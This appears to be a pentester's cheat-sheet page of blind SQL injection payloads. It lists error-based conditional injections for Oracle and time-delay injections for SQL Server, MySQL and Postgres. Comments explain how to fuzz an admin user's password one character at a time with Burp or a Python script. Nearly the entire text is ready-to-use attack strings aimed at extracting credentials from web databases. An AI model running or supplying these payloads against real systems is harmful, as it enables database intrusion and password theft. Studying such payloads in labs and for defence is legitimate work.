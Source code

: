 ```bash
# Once we know the length for the script, we can stop it when it finds that length for the data we want to retrieve


# Conditional error (it shows a different status code depending on if the query is true/false
'||(select '' from dual)||'
'||(select case when (1=1) then to_char (1/0) else '' end from users where username='admin')||' # it throws an error in case it's true
'||(select case when (1=1) then to_char (1/0) else '' end from users where username='admin' and length(password)>=10)||'
# Oracle - fuzz first char, try on Burp first to go ahead later w/ Python script
'||(select case when substr(password,1,1)='a' then to_char (1/0) else '' end from users where username='admin')||'


# Time-based (nothing changes the web content, we just have the response time)
# Blind SQL injection by triggering time delays
# Microsoft SQL Server - first should not trigger a delay, second should and third is to retrieve data
'; IF (1=2) WAITFOR DELAY '0:0:10'-- 
'; IF (1=1) WAITFOR DELAY '0:0:10'--
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
' 
# TRY OR as well as AND
SELECT * FROM users WHERE id = 1; IF (1=1) WAITFOR DELAY '00:00:05'--
admin' AND IF (1=1, sleep(3),'false') -- //
' and sleep(5)-- -
' and (select sleep(5) from flag where (substr(database(),1,1)='s)); -- -
AND PASSWORD LIKE '%%' AND 1=1 --
select ... from ... where ... and sleep(5);
                              and if(substr(database(),1,1)='a',sleep(5),1);
' and (select sleep(5) from flag where (substr(database(),1,1)='s)); -- -
'
''
1' UNION SELECT SLEEP(5),2 where database() like 'u%';--
admin' and if(substr(database(),1,1)='a',sleep(5),1);-- -
' OR (SELECT (IF ((SELECT @@version), 20, 'what' )) )#
' OR (SELECT (IF ((SELECT 1 from x), 20, 'what' )) )#

# POSTGRES 
'||pg_sleep(10)-- -
;SELECT CASE WHEN (1=1) THEN pg_sleep(7) ELSE pg_sleep(0) END--
; SELECT pg_sleep(7)--
# in case table users and username admin is true
'||(select case when (1=1) then pg_sleep(5) else pg_sleep(0) from users where username='admin')-- - 
# Fuzz the following on on Burp with Sniper and Resource Pool > max requests 1 > delay btw requests 500 ms to check it works
'||(select case when substring(password,1,1)='a' then pg_sleep(5) else pg_sleep(0) from users where username='admin')--
```
{% endcode %}
